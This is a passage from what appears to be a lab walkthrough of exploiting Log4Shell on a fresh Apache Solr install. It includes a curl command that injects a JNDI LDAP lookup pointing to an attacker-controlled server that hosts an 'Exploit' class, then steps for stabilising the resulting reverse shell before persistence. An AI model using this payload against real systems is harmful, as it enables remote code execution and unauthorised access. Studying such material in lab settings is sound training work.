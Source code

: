 Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit:

```
curl 'http://10.10.222.223:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.142.230:1389/Exploit\}'
```

![We did it!](<../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1).png>)

We have now received initial access and command-and-control on a vanilla, freshly installed Apache Solr instance!

## Persistence

We see that we are user `solr`

![](<../../.gitbook/assets/image (29) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

We should get a stable shell to make typing commands a lot easier and then move on to persistence

Assuming we're running in a bash shell, do the following:

1. on the reverse shell) **`python3 -c "import pty; pty.spawn('/bin/bash')"`**
2. (press on your keyboard) `Ctrl+Z`
3. (press on your keyboard) `Enter`
4. (on your local host) `stty raw -echo`
5. (on your local host) `fg` (you will not see your keystrokes -- trust yourself and hit **`Enter`**)
6. (press on your keyboard) `Enter`
7. (press on your keyboard) `Enter`
8. (on the reverse shell) `export TERM=xterm`
